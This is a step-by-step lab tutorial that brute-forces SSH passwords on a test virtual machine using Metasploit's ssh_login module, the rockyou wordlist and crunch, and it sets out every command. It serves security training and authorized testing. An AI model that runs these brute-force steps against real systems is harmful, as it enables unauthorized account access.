 ### **Setup:**

1. **Environment Preparation:**
    
    - Have two virtual machines running Kali Linux or any Debian-based.
    - One machine will act as the **target** (running SSH service) and the other as the **attacker** (running Metasploit).
    - Ensure that both the machines are in the same network and are able to ping to each other.
1. **Ensure SSH is Enabled on the Target Machine:**
    
    - Start the SSH service on the target machine:
        
        ```bash
        sudo service ssh start
        ```
        
    - Confirm SSH is running:
        
        ```bash
        sudo netstat -tuln | grep 22
        ```
        
    - Note the target machine's IP address:
        
        ```bash
        ip a
        ```
        
3. **Install Necessary Tools:**
    
    - Ensure Metasploit is installed on the attacker machine:
        
        ```bash
        msfconsole
        ```
        

---

### **Steps to Perform Brute Force Attack:**

1. **Start Metasploit Framework:**
    
    - Launch Metasploit on the attacker machine:
        
        ```bash
        msfconsole
        ```
        
2. **Load the SSH Login Module:**
    
    - Use the Metasploit SSH login auxiliary module:
        
        ```bash
        use auxiliary/scanner/ssh/ssh_login
        ```
        
3. **Set Target Parameters:**
    
    - Set the target IP address:
        
        ```bash
        set RHOSTS <Target_IP>
        ```
        
    - Specify the username to attempt login:
        
        ```bash
        set USERNAME <username>
        ```
        
        _Replace `<username>` with the actual username you want to test._
4. **Specify the Wordlist for Passwords:**
    
    - Use a pre-existing password list or create one:
        
        ```bash
        set PASS_FILE /usr/share/wordlists/rockyou.txt
        ```
        
    - Ensure the `rockyou.txt` file is uncompressed:
        
        ```bash
        gunzip /usr/share/wordlists/rockyou.txt.gz
        ```
	* You can also use your own password list:
		
	```bash
		crunch 4 4 0123456789 -o password.txt
```

1. **Set the Number of Threads:**
    
    - To speed up the process, set multiple threads:
        
        ```bash
        set THREADS 4
        ```
        
6. **Initiate the Attack:**
    
    - Start the brute force attack:
        
        ```bash
        run
        ```
        
    - Metasploit will iterate through the password list, trying to log in using the provided username.
7. **Analyze Results:**
    
    - If a correct password is found, it will be displayed in the output:
        
        ```
        [SUCCESS] <Target_IP>:22 - Success: '<username>:<password>'
        ```
        

---

### **Post-Attack Cleanup:**

1. **Stop the SSH Service on the Target (Optional):**
    
    ```bash
    sudo service ssh stop
    ```
    
2. **Document Findings:**
    
    - Note the cracked credentials and include them in your report.
3. **Ethical Responsibility:**
    
    - Avoid causing harm or retaining unauthorized access to systems. Inform relevant authorities or owners about the findings if it’s a penetration test.

---